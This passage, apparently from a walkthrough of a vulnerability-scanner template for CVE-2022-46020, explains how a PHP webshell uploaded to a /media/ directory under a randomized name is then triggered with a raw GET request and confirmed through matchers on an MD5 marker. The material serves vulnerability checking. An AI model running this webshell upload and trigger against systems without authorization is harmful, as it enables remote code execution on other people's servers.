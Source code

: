 **Purpose:**

- Uploads a `.php` webshell to the `/media/` directory.
    
- The shell, when accessed, outputs the MD5 hash of `"CVE-2022-46020"`.
    
- The filename is randomized using `{{randstr}}` to avoid detection.
    

---

###  Final Request: Trigger Webshell

```yaml
- raw:
    - |
      GET /media/{{randstr}}.php HTTP/1.1
      Host: {{Hostname}}
```

**Purpose:**

- Accesses the uploaded webshell via `/media/{{randstr}}.php`.
    
- Executes the PHP code, which outputs the MD5 hash if successful.
    

---

###  Matchers: Confirm Exploitation

```yaml
matchers-condition: and
matchers:
  - type: word
    part: body_6
    words:
      - 751a8ba516522786d551075a092a7a84

  - type: word
    part: header
    words:
      - text/html

  - type: status
    status:
      - 200
```

**Explanation:**

- Verifies:
    
    - The response body contains the correct MD5 hash: `751a8ba516522786d551075a092a7a84`.
        
    - The HTTP header includes `text/html`.
        
    - The response status is `200 OK`.
        
- All conditions must be true (`matchers-condition: and`) to confirm successful exploitation.
    
